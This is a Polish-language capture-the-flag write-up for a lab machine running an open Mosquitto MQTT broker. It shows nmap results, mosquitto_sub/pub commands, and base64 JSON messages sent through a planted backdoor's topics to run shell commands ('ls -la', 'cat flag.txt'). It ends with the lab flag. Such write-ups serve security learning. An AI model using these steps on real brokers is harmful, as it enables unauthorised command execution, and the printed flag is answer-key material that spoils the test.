



# **Nmap Results**
```text
# Nmap 7.95 scan initiated Wed Oct  1 15:34:39 2025 as: /usr/lib/nmap/nmap --priv
ileged -sV -sC -Pn -p- -oN nmap_scan.txt 10.10.161.204
Nmap scan report for 10.10.161.204
Host is up (0.056s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE                  VERSION
22/tcp   open  ssh                      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu 
Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:6b:37:5e:91:30:e7:75:83:8b:4f:49:9c:79:8a:72 (RSA)
|   256 fc:76:ec:7e:12:d8:3f:e9:a6:1f:87:24:f0:0b:fd:ef (ECDSA)
|_  256 1b:c4:3c:52:07:ac:3d:63:4a:6b:7d:76:2a:e8:37:fb (ED25519)
1883/tcp open  mosquitto version 2.0.14
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/load/bytes/sent/5min: 589.42
|     $SYS/broker/load/bytes/received/1min: 4465.18
....
|     $SYS/broker/subscriptions/count: 3
|_    $SYS/broker/load/connections/15min: 0.17
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<br>
# **Service Enumeration**

## **TCP/22**
SSH

## **TCP/1883**
MQTT - Message Queuing Telemetry Transport - lekki otwarty protokół komunikacyjny typu publish/subscribe, przeznaczony do przesyłania wiadomości między urządzeniami w aplikacjach IoT. Na tym systemie jest to server mosquitto version 2.0.14

# **Exploit**

Najpierw zainstalowałem `sudo apt install mosquitto-clients -y` w celu połączenia do brokera mqtt. Można połączyć się z brokerem mqtt za pomocą:
- `mosquitto_sub` —  **subscribe** (otrzymuwanie wiadomości)
- `mosquitto_pub` —  **publish** (wysyłanie wiadomości)

`mosquitto_sub -h 10.10.161.204 -p 1883 -t "#" -v` :
- -h host
- -p port
- -t "#" subskrybcja do wszystkich urządzeń ("#" - wildcard)
- -v - verbose


W danych zdobytych z połączenia do brokera widać zakodowaną wiadomość w base64, po odkodowaniu dostajemy dla urządzenia `yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config`:

```
{
  "id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d",
  "registered_commands": ["HELP", "CMD", "SYS"],
  "pub_topic": "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub",
  "sub_topic": "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"
}
```
- id - id urządzenia/klienta
- registered_commands - polecenia które mogą zostać wysłane do hosta
- pub_topic - miejce gdzie klient wysyła dane (publikuje)
- sub_topic - miejsce gdzie klient subskrybuje - nasłuchuje tutaj poleceń.

W celu nasłuchiwania tylko dla urządzeń związanych z tymi poleceniami:
`mosquitto_sub -h 10.10.161.204 -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -v`

Wysłanie wiadomości daje następujący wynik:



Odkodowanie otrzymanej wiadomości po wysłaniu "HELP"

```
Invalid message format.
Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
```

Wysłanie wiadomości `{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "HELP", "arg": ""}` w base64 daje taką odpowiedź 

```
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"Message format:\n    Base64({\n        \"id\": \"<Backdoor ID>\",\n        \"cmd\": \"<Command>\",\n        \"arg\": \"<arg>\",\n    })\n\nCommands:\n    HELP: Display help message (takes no arg)\n    CMD: Run a shell command\n    SYS: Return system information (takes no arg)\n"}
```


Wysłanie wiadomości `{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "SYS", "arg": ""}` w base64 daje taką odpowiedź 

```
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"Linux x64 5.15.0-139-generic"}
```

Po wysłaniu argumentu `ls -la` widać, że flaga znajduje się w folderze w którym jesteśmy.

Po wysłaniu wiadomości w base64
`{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}`

Otrzymujemy flagę:



# **Flag**

### User

```text
flag{18d44fc0707ac8dc8be45bb83db54013}
```

<br>
<br>
